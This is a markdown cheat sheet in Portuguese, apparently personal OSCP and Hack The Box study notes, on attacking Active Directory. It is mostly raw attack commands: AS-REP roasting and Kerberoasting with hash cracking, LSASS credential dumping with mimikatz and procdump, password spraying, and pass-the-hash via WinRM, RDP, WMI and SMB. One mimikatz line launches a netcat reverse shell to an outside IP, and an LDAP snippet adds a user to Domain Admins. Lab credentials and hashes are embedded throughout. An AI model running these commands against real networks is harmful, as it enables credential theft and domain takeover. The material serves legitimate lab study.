

Active Directory
========================

Sumário

[Conceitos](Active%20Directory.md#Conceitos)
[Enumeration](Active%20Directory.md#Enumeration)


## Get hashes
     
     impacket-GetNPUsers -dc-ip 192.168.175.202 lab.local/ -usersfile users.txt -format john -outputfile hashes
     john --wordlist=/usr/share/wordlists/rockyou.txt hahses
     
      grep --color=auto -rnw * -ie "PASSWORD" --color=always 2> /dev/null

    ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" L4mpje@bastion.htb


    wget https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe

 1976  wget https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
 1977  impacket-smbserver smb .
 1983  wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe
 1984  wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1
 1985  ls
 1986  impacket-smbserver smb .
 1987  ls
 1988  open .
 1989  locate mimikatz
 1992  cp /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/lab/3_exploitation/10_11_1_123/mimikatz .
 1993  cp -r /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/lab/3_exploitation/10_11_1_123/mimikatz .

     smbmap -H 10.129.205.44 -u '' -p ''

     smbclient -U '' -N //10.129.205.44/Replication

    active.htb/
    ls
    cd MACHINE/Preferences/Groups/
    cat Groups.xml 
    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
    
    ##########################
    ## Nao funcionou         #
    ## Sem permissao         #
    ##########################
    impacket-psexec active.htb\svc_tgs:GPPstillStandingStrong2k18@10.129.205.44
    impacket-psexec active.htb\svc_tgs@10.129.205.44
    impacket-psexec active.htb\SVC_TGS@10.129.205.44
    evil-winrm active.htb\SVC_TGS@10.129.205.44
    
    ## Aqui funcionou
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.205.44 -request
    vi hash.txt
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
    impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.205.44


   
 2021  smbmap -H 10.129.245.180 -u '' -p ''

 2024  impacket-GetNPUsers blackfield.local/audit2020 -dc-ip 10.129.245.180 -format john -no-pass
 2025  impacket-GetNPUsers blackfield.local/support -dc-ip 10.129.245.180 -format john -no-pass
 
 2033  john --wordlist=/usr/share/wordlists/rockyout.txt hash.txt 
 2034  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
 
    evil-winrm -i 10.129.245.180 -u support -p '#00^BlackKnight'

    smbclient -L 10.129.245.180 -U 'balckfield.local/support' --password '#00^BlackKnight'

    smbmap -u support -p '#00^BlackKnight' -d 'blackfield.local' -H 10.129.245.180

    rpcclient -c enumdomusers 10.10.204.197 -U 'THM-AD/svc-admin' --password 'management2005'

    rpcclient -U 'blackfield/support' --password '#00^BlackKnight' 10.129.245.180
    setuserinfo2 audit2020 23 'R3dT3@m'
    
    smbclient -U 'blackfield/audit2020' --password 'R3dT3@m' -L 10.129.245.180
    
    pypykatz lsa minidump lsass.DMP
    
    crackmapexec smb 10.129.245.180 -u support -H <hashes>
    
    crackmapexec winrm 10.129.245.180 -u svc_backup -H <hash>
    
Nesse primeiro momento o objetivo é comprometer uma máquina do domínio com as técnicas e comandos empregadas nesta página.

## 1 - Enumerar IP dos DCs, portas/serviços e nome de domínio

### 1 - Obtém IP address do DC (domain controller)

Como primeiro objetivo temos que levar em conta a enumeração de portas/serviços por meio do nmap e enumerar nome do domínio, assim como o IP dos domains controllers:

linux

    nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com.br
    nslookup -type=srv _kerberos._tcp.EXMAPLE.COM
    nslookup -type=srv _kpasswd._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM

windows

    nslookup
    set type=all
    _ldap._tcp.dc._msdcs.domain.com.br

Outra opção seria:

    nltest /dclist:oscp.exam

    nltest /dclist:domainname
 
Vale considerar que este útlimo comando só funciona se a máquina já está no domínio.

    ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"

## 2 - Enumeração de usuário de domínio

Aqui vale considerar que, por meio da enumeração devemos considerar os possíveis arquivos existentes que conseguimos obter e fazer possíveis nomes de usuários com esses conteúdos,. No demais, seguem comandos que podem nos auxiliar quanto a esta tarefa:

Via Kerberos

    kerbrute userenum -d <domain> --dc <hostname> users_temp.txt

    kerbrute userenum --domain <domain> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc <hostname>

    nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt <hostname>


lookupsid

    impacket-lookupsid <domain>@<hostname>

Via Web

Não existe um comando específico para obter noomes de usuários específicos, por motivos óbvios, porém, podemos gerar possíveis nomes de usuários com o cewl, com o seguinte comando:

    cewl http://<hostname>/ > users_temp.txt

## 3 - Obter hashes de senha/senha ou exploits de serviços expostos e brute force
  
Este ponto é bem interessante, porque aqui temos várias possibilidades disponíveis e algumas delas deixarei documentado em uma outra página que depois deixarei o link. Mas para fins de AD, podemos considerar os principais que seriam:

### AS-REP Roasting

    impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users_temp.txt -format john -outputfile hashes_temp.txt

Se der sucesso:

    john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt
    
### Kerberoasting

Enumerate SPNs... Se atentar a este ponto, visto que enumerando localmente na máquina, são retornados vários SPNs pré configurados do próprio domínio. Temos que enumerar os que estão associados a uma conta de serviço (user), pois a probabilidade de ter uma senha fraca é maior.

    setspn -T home.lab -Q */*

impacket

    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.205.44 -request
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-host dc.active.htb -request
```
impacket-GetUserSPNs -dc-host forest.htb.local htb.local/svc-alfresco -k -no-pass
```


Aqui teremos duas opções de extração, sendo elas TGS e TGT. No caso de já termos o acesso adm, basta obtermos o ticket do SPN da seguinte maneira:

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
'<SPN_Name>'
```

Caso não consiga, basta informar a credencial para que as coisas aconteçam:

```
$pass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco',$pass)
get-domainspnticket -spn IMAP/EXCH01.htb.local -credential $cred
```

Depois podemos verificar que conseguimos o ticket de duas maneiras:

```
klist
```

ou

```
./m.exe
privilege::debug
kerbertos::list /export
```
Depois de requisitado esse ticket, podemos quebrá-lo de algumas formas, mas a mais tranquila seria com o tgsrepcrack.py

<figure><figcaption><p>tgsrepcrack</p></figcaption></figure>

```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-
Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

Outra opção seria com john the ripper

kirbi2john.py

<figure><figcaption><p>kirbi2john.py</p></figcaption></figure>

```
python kirbi2john.py /path/file.kirbi > kirbi.john
john --wordlist=/usr/share/rockyou.txt kirbi.john
```


### lsass dump

mimikatz

    privilege::debug
    sekurlsa::logonPasswords
    lsadump::lsa /patch

procdump

    get-process lsass
    .\procdump -accepteula -ma 572 out.dmp
    #ou
    .\pd.exe -accepteula -ma lsass.exe lsass_dump
    #Then parse it with mimikatz
    mimikatz.exe
    sekurlsa::minidump out.dmp
    sekurlsa::logonpasswords
    #remotelly
    pypykatz lsa minidump lsass_dump.dmp

TaskManager



Crackmapexec

    crackmapexec smb 192.168.175.202 -u Administrator -H "<nt_hash>" --lsa

### Password enumeration

Password spray

Exploração de serviço
Neste caso, devemos considerar outra página para conseguir algum tipo de exploração. De modo geral, são:
Web - SQLi
CVEs
Chaves expostas por meio de aplicações web
Exposição de senhas via GPP - Group.xml
Password Spray
Aqui podemos aplicar algumas técnicas sendo elas user = password, mais os usuários que já temos no dicionário:

    cat users.txt > passwords.txt
    crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
    crackmapexec smb hosts.txt -u users.txt -p passwords_test.txt --continue
    
    crackmapexec winrm hosts.txt -u users.txt -p passwords_test.txt --continue


Winpeas
Detalhe que podemos enumerar o console history do powershell com WinPEAS, por exemplo pra fazer a enumeração completa:

```
wget http://10.10.14.17/4-privilege%20escalation/winPEASx64.exe -o wp.exe
./wp.exe
```

Spray-password

    .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin

## 4 - Manuseio de hashes e passwords

### Overpass the hash

Traduzindo o hash NTLM para um ticket Kerberos:

Locally

    sekurlsa::pth /user:user1 /domain:home.lab /ntlm:ae974876d974abd805a989ebead86846 /run:".\n.exe -e cmd 192.168.0.76 8089"
    
    sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

Depois disso, basta fazer alguma autenticação via rede, exemplo:

    net use \\dc01.home.lab

**Fica como observação que não consegui reproduzir isso no laboratório**

Remotelly

impacket - Kerberos ticket

```
impacket-getTGT -dc-ip <IP_do_DC> domain/user:password
```
Exemplo
```
impacket-getTGT -dc-ip 10.10.11.168 scrm.local/ksimpson:ksimpson
#ou
impacket-getTGT -dc-ip 10.10.11.168 scrm.local/ksimpson -hashes :5f38c0485f0c23f8dedf9bf23ffa5336
```
E agora o exemplo com o hash da senha (notem que fiz a conversão da senha para o hash NT):
```
iconv -f ASCII -t UTF-16LE &#x3C;(printf "ksimpson") | openssl dgst -md4
#ou
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "ksimpson".encode("utf-16le")).digest()))'
```
```
export KRB5NAME=/home/acosta/owncloud/Area_de_trabalho/estudos/hack_the_box/scrambled/Administrator.ccache
```
O ccache vai estar carregado e já podemos utilizá-lo para autenticarmos via Kerberos

### pass the hash

Locally

    sekurlsa::pth /user:user1 /domain:home.lab /ntlm:ae974876d974abd805a989ebead86846 /run:".\n.exe -e cmd 192.168.0.76 8089"

Remotelly

#### winrm

```
evil-winrm -i 10.10.10.103 -u Administrator -H f6b7160bfc91823792e0ac3a162c9267
```

#### RDP

    cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
    xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C


#### LDAP

    python3
    >>> import ldap3
    >>> user = 'DOMAIN\\EXCHANGE$'
    >>> password = 'aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248'
    >>> server = ldap3.Server('DOMAIN.LOCAL')
    from ldap3 import Server, Connection, SIMPLE, SYNC, ALL, SASL, NTLM
    connection = ldap3.Connection(server, user=user, password=password, authentication=NTLM)
    >>> connection.bind()
    >>> from ldap3.extend.microsoft.addMembersToGroups import ad_add_members_to_groups as addUsersInGroups
    >>> user_dn = 'CN=IT User,OU=Standard Accounts,DC=domain,DC=local'
    >>> group_dn = 'CN=Domain Admins,CN=Users,DC=domain,DC=local'
    >>> addUsersInGroups(connection, user_dn, group_dn)
    True

#### WMI

    wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

#### SMB

    smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local
    
    cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C
    impacket-psexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
    impacket-smbexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
